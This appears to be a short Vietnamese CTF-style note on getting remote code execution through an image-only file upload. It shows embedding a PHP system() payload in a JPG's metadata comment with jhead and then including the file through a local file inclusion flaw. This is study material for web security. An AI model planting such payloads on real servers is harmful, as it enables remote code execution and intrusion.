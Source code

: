 # RCE khi upload file chỉ cho phép image extension
**References**: https://onestepcode.com/injecting-php-code-to-jpg/

1. Inject php code vào meta information của image, save as image.jpg

```bash
jhead -ce file.jpg # The -ce option of jhead will launch a text editor to edit the comment section of the metadata.
# <?php system('find / | grep flag'); __halt_compiler(); ?>
```

2. Khi đọc file thì tất nhiên php code sẽ không được executed bởi file này được xem là jpg. Ở đây cần lợi dụng thêm lỗ hổng nào đó như LFI  để include file này hoặc dựa vào missconfiguration,...
